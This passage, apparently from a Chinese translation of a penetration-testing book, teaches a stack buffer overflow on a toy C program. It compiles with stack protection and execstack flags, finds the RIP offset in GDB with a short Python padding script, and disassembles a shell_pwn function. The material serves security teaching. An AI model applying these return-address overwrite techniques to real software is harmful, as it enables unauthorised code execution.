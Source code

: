 ```
```

而且，这里`shell_pwn`永远不会被执行，因为我们从未在这里调用过它，但现在我们知道如何执行它。首先，让我们编译它：

```
 $ gcc -fno-stack-protector -z execstack exec.c -o exec
```

然后，在 GDB 中打开我们的代码：

```
$ gdb ./exec
```

然后在`main`函数处设置断点：

```
$ break main
```

好的，现在让我们准备利用漏洞来确认 RIP 寄存器的准确位置：

```
#!/usr/bin/python

 buffer = ''
 buffer += 'a'*24
 buffer += 'b'*6
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行我们的攻击：

```
$ ./exploit.py
```

现在，从 GDB 运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将在`main`函数处命中断点：

![](../images/00243.jpeg)

点击*C*，然后*进入*继续：

![](../images/00244.jpeg)

是的，它在抱怨我们的 6 个`b`角色`0x0000626262626262`，所以现在我们走上了正确的道路。现在，让我们查找外壳代码的地址：

```
$ disassemble shell_pwn
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00245.jpeg)
